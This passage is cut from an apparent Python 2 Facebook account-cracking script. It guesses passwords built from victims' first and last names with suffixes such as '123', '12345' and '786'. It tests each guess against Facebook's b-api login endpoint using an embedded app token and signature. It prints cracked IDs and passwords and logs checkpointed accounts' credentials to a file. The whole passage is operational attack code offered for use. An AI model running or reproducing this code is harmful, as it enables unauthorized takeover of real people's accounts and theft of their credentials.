 				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]:
				               print '\x1b[1;96m[ ✖ ] \x1b[1;94mCheckpoint'
				               print '\x1b[1;96m[⚡⚡] \x1b[1;96mName \x1b[1;96m    : \x1b[1;96m' + b['name']
				               print '\x1b[1;96m[⚡⚡] \x1b[1;96mID \x1b[1;96m      : \x1b[1;96m' + user
				               print '\x1b[1;96m[⚡⚡] \x1b[1;96mPassword \x1b[1;96m: \x1b[1;96m' + pass2 + '\n'
				               cek = open("out/super_cp.txt", "a")
				               cek.write("ID:" +user+ " Pw:" +pass2+"\n")
				               cek.close()
				               cekpoint.append(user+pass2)								
				           else:											
					       pass3 = b['last_name']+'123'										
					       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load(data)										
					       if 'access_token' in q:	
						       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                       z = json.loads(x.text)
						       print '\x1b[1;95m[  ✓  ] \x1b[1;97mClone'								
						       print '\x1b[1;95m[⚡⚡] \x1b[1;95mName \x1b[1;95m    : \x1b[1;95m' + b['name']									
               					       print '\x1b[1;95m[⚡⚡] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user							
						       print '\x1b[1;95m[⚡⚡] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass3 + '\n'									
						       oks.append(user+pass3)
                                               else:
			                               if 'www.facebook.com' in q["error_msg"]:
				                           print '\x1b[1;96m[ ✖ ] \x1b[1;94mCheckpoint'
				                           print '\x1b[1;96m[⚡⚡] \x1b[1;96mName \x1b[1;96m    : \x1b[1;96m' + b['name']
				                           print '\x1b[1;96m[⚡⚡] \x1b[1;96mID \x1b[1;96m      : \x1b[1;96m' + user
				                           print '\x1b[1;96m[⚡⚡] \x1b[1;96mPassword \x1b[1;96m: \x1b[1;96m' + pass3 + '\n'
				                           cek = open("out/super_cp.txt", "a")
				                           cek.write("ID:" +user+ " Pw:" +pass3+"\n")
				                           cek.close()
				                           cekpoint.append(user+pass3)									
					               else:										
						           pass4 = b['last_name'] + '12345'											
			                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                   q = json.load(data)												
			                                   if 'access_token' in q:		
						                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                   z = json.loads(x.text)
				                                   print '\x1b[1;95m[  ✓  ] \x1b[1;97mClone'											
				                                   print '\x1b[1;95m[⚡⚡] \x1b[1;95mName \x1b[1;95m    : \x1b[1;95m' + b['name']											
				                                   print '\x1b[1;95m[⚡⚡] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user											
				                                   print '\x1b[1;95m[⚡⚡] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass4 + '\n'											
				                                   oks.append(user+pass4)
                                                           else:
			                                           if 'www.facebook.com' in q["error_msg"]:
				                                       print '\x1b[1;96m[ ✖ ] \x1b[1;94mCheckpoint'
				                                       print '\x1b[1;96m[⚡⚡] \x1b[1;96mName \x1b[1;96m    : \x1b[1;96m' + b['name']
				                                       print '\x1b[1;96m[⚡⚡] \x1b[1;96mID \x1b[1;96m      : \x1b[1;96m' + user
				                                       print '\x1b[1;96m[⚡⚡] \x1b[1;96mPassword \x1b[1;96m: \x1b[1;96m' + pass4 + '\n'
				                                       cek = open("out/super_cp.txt", "a")
				                                       cek.write("ID:" +user+ " Pw:" +pass4+"\n")
				                                       cek.close()
				                                       cekpoint.append(user+pass4)					
					                           else:									
						                       pass5 = b['first_name'] + '786'										
						                       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")								